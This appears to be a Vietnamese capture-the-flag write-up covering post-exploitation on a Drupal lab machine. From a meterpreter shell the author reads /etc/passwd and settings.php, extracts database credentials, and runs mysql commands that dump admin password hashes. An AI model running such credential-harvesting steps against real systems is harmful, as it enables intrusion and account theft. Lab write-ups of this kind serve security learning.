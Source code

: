 ## Post-Exploit
Sau khi tìm không thấy user flag ở đây ta tiếp tục tìm xem có tài khoản của người dùng khác hay không bằng `/etc/passwd`

![image](https://hackmd.io/_uploads/Bk2ubbcFA.png)

Việc sử dụng `sudo -l` và lệnh `find` để leo quyền đọc `/etc/shadow` hay leo thẳng root đều không có nên ta sẽ làm cách khác mà lỗ hổng này có chính là **SQL**

![image](https://hackmd.io/_uploads/B1u_zZqtA.png)

Có được Mysql ta tìm file [config](https://www.drupal.org/forum/support/post-installation/2009-01-14/mysql-password-location)

![image](https://hackmd.io/_uploads/HklG7-cFR.png)

![image](https://hackmd.io/_uploads/ByWQQW5K0.png)

`cat settings.php` là ta có credential truy cập vào db với username:password là drupaluser:**CQHEy@9M*m23gBVj**

![image](https://hackmd.io/_uploads/B1abLW9tC.png)

```
meterpreter > shell
Process 14815 created.
Channel 5 created.

mysql -u 'drupaluser' -p'CQHEy@9M*m23gBVj' -D drupal -e 'show tables;'
Tables_in_drupal
actions
authmap
batch
block
<SNIP>
users
users_roles
variable
watchdog
```
Ta chú ý có bảng **users**. Truy vấn vào bảng này để xem có password hay không

```
mysql -u 'drupaluser' -p'CQHEy@9M*m23gBVj' -D drupal -e 'show tables; SELECT id, username, email FROM users;'

uid     name    pass    mail    theme   signature       signature_format        created access  login   status       timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0   NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu  a:1:{s:7:"overlay";i:1;}
3       ad      $S$DqCOt0QnQQESyRzCEuQdIW8rSn65iusmL0KF8nwYixztvG76EXXT ad@gmail.com                    filtered_html        1722578784      0       0       0       Europe/London           0       ad@gmail.com    NULL
```
Vậy là table này có chứa credential của `brucetherealadmin` và có cả tài khoản của ta khi test
